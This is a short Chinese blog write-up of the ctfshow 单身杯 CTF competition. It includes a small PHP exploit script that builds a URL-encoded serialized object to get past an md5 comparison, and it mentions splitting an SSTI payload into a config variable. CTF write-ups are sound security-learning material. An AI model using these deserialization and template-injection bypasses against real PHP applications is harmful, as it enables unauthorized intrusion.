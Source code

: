 ```yaml
---
title: ctfshow单身杯
date: 2024-11-11 12:30:52
permalink: /pages/e5ee7e/
categories:
  - wp
tags:
  - 比赛
  - ctfshow
  - wp
  - ctf
author: 
  name: the0n3
  link: https://the0n3.top
---
```


学习新姿势，争做新青年！



## 签到·好玩的PHP

学到了新的md5绕过姿势，字符串和数字的MD5值是相等的

参考文章：[PHP md5()函数详解，PHP计算MD5，md5()绕过，md5()漏洞原理剖析](https://blog.csdn.net/wangyuxiang946/article/details/131754105)

exp

```php
<?php
class ctfshow {
    private $d;
    private $s;
    private $b;
    public $ctf=1.2;
    public function __construct() {
        $this->d = '1';
        $this->s = '.';
        $this->b = '2';
        }
}

$a = new ctfshow();
echo urlencode(serialize($a))."\n";
var_dump($a);
```

## ezzz_ssti

把payload分片写到config变量里
